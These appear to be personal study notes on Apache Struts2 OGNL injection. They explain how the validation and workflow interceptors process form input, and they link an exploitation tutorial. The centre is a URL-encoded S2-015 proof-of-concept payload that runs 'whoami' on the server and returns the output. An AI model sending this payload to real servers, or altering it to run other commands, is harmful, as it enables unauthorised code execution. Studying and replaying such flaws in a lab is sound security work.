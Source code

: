  the exact position of ognl parsing：
 ```java
 OgnlUtil.getValue(expr, this.context, this.root, asType);
 ```
 
 the mechanism of validation in struts2 relies on two interceptors, **validation** and **workflow**.
 The validation interceptor will create an error checking list according to the xml configuration file, by which the workflow interceptor would check the existing form for possible errors.
 
 under the default configuration, the workflow will detect then handle with the form's errors, and instantly return the handling result after it try to parse user input in form with altSyntax.
 
 altSyntax could parse the OGNL expression resorting to the open-source widget: xwork.
 
  
  
  s2-015:
  
  the proof of concept 
  the command execution payload:
  /struts2_15_war_exploded/%24%7b%23%61%3d%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%5b%5d%7b%22%77%68%6f%61%6d%69%22%7d%29%29%2e%72%65%64%69%72%65%63%74%45%72%72%6f%72%53%74%72%65%61%6d%28%74%72%75%65%29%2e%73%74%61%72%74%28%29%2c%23%62%3d%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%63%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%23%62%29%2c%23%64%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%23%63%29%2c%23%65%3d%6e%65%77%20%63%68%61%72%5b%35%30%30%30%30%5d%2c%23%64%2e%72%65%61%64%28%23%65%29%2c%23%66%3d%23%63%6f%6e%74%65%78%74%2e%67%65%74%28%22%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%64%69%73%70%61%74%63%68%65%72%2e%48%74%74%70%53%65%72%76%6c%65%74%52%65%73%70%6f%6e%73%65%22%29%2c%23%66%2e%67%65%74%57%72%69%74%65%72%28%29%2e%70%72%69%6e%74%6c%6e%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%23%65%29%29%2c%23%66%2e%67%65%74%57%72%69%74%65%72%28%29%2e%66%6c%75%73%68%28%29%2c%23%66%2e%67%65%74%57%72%69%74%65%72%28%29%2e%63%6c%6f%73%65%28%29%7d.action
  
  
the vulnerability(s2-007) could not be replayed with the env of s2-001, might account for the order of the vulnerability trigger, since the s2-001 is trigged before the s2-007``
  
  
  
###basic java se language feature and learning
  
  should not waste too much time on this topic


###the ongl jndi deserialization example
  
  tutorial for ONGL injection:
  https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts/
  
  struts2: designed to streamline the development cycle from building, deploying and maintaining applications.
  
  apache coyote, the connector supports http, allows communication with apache catalina
  
  apache catalina determines which servlet to be used to according to the request.
   
   
   
###resin

a kind of middleware
